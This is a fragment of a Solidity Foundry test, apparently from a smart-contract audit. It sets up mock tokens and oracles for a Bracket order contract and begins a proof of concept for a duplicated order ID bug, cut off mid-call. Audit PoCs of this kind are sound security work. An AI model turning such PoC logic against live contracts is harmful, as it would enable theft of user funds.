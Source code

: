 ```solidity
        usdcOracle = makeAddr("usdcOracle");
        wethOracle = makeAddr("wethOracle");
        alice = makeAddr("alice");

        master = new AutomationMaster();
        bracket = new Bracket(master, IPermit2(permit2));

        MockToken _usdc = new MockToken();
        _usdc.initialize("usdc", "usdc", 8);
        _usdc.mint(address(this), 1000000e8);
        _usdc.mint(alice, 1000000e8);
        _usdc.approve(address(bracket), 1000000e8);
        vm.prank(alice);
        _usdc.approve(address(bracket), 1000000e8);

        usdc = IERC20(address(_usdc));

        MockToken _weth = new MockToken();
        _weth.initialize("weth", "WETH", 18);
        _weth.mint(address(this), 1e6 ether);
        _weth.mint(alice, 1e6 ether);
        _weth.approve(address(bracket), 1e6 ether);
        vm.prank(alice);
        _weth.approve(address(bracket), 1e6 ether);

        weth = IERC20(address(_weth));

        vm.label(address(usdc), "USDC");
        vm.label(address(weth), "WETH");

        tokens.push(usdc);
        tokens.push(weth);

        oracles.push(IPythRelay(usdcOracle));
        oracles.push(IPythRelay(wethOracle));

        master.registerOracle(tokens, oracles);
        master.setMaxPendingOrders(100);

        vm.mockCall(usdcOracle, abi.encodeWithSignature("currentValue()"), abi.encode(1e8));
        _updateETHPrice(4000);
    }

    function _updateETHPrice(uint256 price) internal {
        vm.mockCall(wethOracle, abi.encodeWithSignature("currentValue()"), abi.encode(price * 1e8));
    }

    function test_DuplicatedOrderId() public {
      // @audit POC Duplicated order id
        uint96 orderId = master.generateOrderId(address(this));

        // 1. attacker create first order
        bracket.createOrder({
            swapPayload: new bytes(0),
            takeProfit: type(uint128).max,
            stopPrice: 0,
            amountIn: 0.001 ether,
            tokenIn: weth,
            tokenOut: usdc,
            recipient: address(this),
            feeBips: 0,
            takeProfitSlippage: 0,
```